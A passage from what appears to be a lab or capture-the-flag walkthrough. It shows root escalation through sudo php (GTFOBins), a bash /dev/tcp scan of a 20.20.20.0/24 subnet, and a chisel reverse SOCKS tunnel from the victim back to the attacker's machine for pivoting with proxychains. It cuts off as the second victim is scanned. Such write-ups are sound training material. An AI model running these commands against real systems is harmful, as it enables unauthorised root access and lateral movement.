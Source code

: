         ![image 11](https://github.com/user-attachments/assets/83e8b1fa-5ce5-4c2a-b31f-f202c7935a3b)

        
    
    - We search in gtfobins for ways to escalate privileges with sudo php and become root
        [GTFOBins](https://gtfobins.github.io/)
        
        ```bash
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
        ```
        
        ![image 12](https://github.com/user-attachments/assets/bf429fe7-99d3-43c6-9be9-efd10b2b0b1d)

        
    
    - We find out which ips this computer has 'hostname -I'. We apply a reconnaissance to see what other hosts are on network 20.20.20.0/24
        
        ```bash
        #!/bin/bash
        
        for i in $(seq 1 254); do
        	for port in 21 22 80 443 445 8080; do
        		timeout 1 bash -c "echo '' > /dev/tcp/20.20.20.$i/$port" &>/dev/null && echo "[+] Host 20.20.20.$i - PORT $port - OPEN" &
        	done
        done; wait
        
        ```
        
        ![image 13](https://github.com/user-attachments/assets/b2fcf310-bd97-4cdb-951d-e5139c9d6b91)

        
    
    - We create a tunnel between the two machines using `chisel`
        
        ```bash
        #Execute this from your machine
        ./chisel server --reverse -p 1234
        
        #Execute this from the 10.10.10.2 machine
        ./chisel client 10.10.10.1:1234 R:1080:socks
        ```
        
        ![image 14](https://github.com/user-attachments/assets/c20e08ab-22f6-4cc7-8621-89bb6a1bcac7)

        
        ![image 15](https://github.com/user-attachments/assets/3a151405-6b47-4b4d-98c8-914a3b4c9fde)

        
        - Add in `/etc/proxychains4.conf` the following line
            
            ```bash
            socks5 127.0.0.1 1080
            ```
            
    
- 20.20.20.3 (Victim 2)
    - We scanned the 5000 most common ports.
        